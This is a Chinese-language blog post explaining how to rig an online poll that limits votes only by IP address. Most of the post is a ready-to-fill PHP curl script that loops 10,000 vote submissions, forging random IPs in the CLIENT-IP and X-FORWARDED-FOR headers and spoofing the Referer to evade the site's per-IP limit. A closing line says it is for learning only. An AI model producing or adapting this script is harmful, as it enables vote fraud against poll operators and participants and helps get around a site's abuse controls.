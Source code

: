 ```yaml
---
layout: post
title : 投票脚本
category : program
---
```

{% include JB/setup %}

最近有个投票活动,我看到大部分人都是几百票,然而少数人却是几万票,这明显就是刷票的行为.于是就研究了一下如何刷票.

由于这个投票网站不需要登录,也没有验证码,只是限制了IP而已,所以实现起来比较简单.起初我想用java来写的.但是查了一下资料,进展不是很顺利.突然想起来以前包子在河畔上发过一个php投票脚本.于是找到了这个帖子,研究一了一下.发现curl真是个牛逼的东西.

好了,下面说一下思路.主要是需要知道下面2点:

	1 form的action地址
	2 需要提交的键值

下面是脚本代码:

```php
<?php
for($count = 0; $count < 10000; $count++) {
	//sleep(1)
	// 随机生成IP
	$ip = '';
	for($i = 0; $i < 4; $i++) {
	    $ip .= mt_rand(1,255);
	    if($i == 3) break;
	    $ip .= '.';
	}
	// 设置HTTP头部变量
	$h['CLIENT-IP'] = $ip;
	$h['X-FORWARDED-FOR'] = $ip;
	$header = array();  
	foreach($h as $k => $v ) {  
	    $header[] = $k .':' . $v;  
	}
	// 设置POST信息
	$postData = "这里为需要提交的键值";
	//初始化curl句柄
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, "form的action地址");
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	// 伪造HTTP头部
	curl_setopt($ch, CURLOPT_HTTPHEADER , $header );
	curl_setopt($ch, CURLOPT_REFERER, "投票页面地址");
	//curl_setopt($ch, CURLOPT_HEADER, 1);
	curl_setopt($ch, CURLOPT_POST, 1);
	curl_setopt($ch, CURLOPT_POSTFIELDS, $postData);
	$out = curl_exec($ch);
	curl_close ($ch);
	echo $out.' '.$count.' '.$ip;
	echo "\n";
}
?>
```

以上代码仅供交流学习,不要乱用哈!
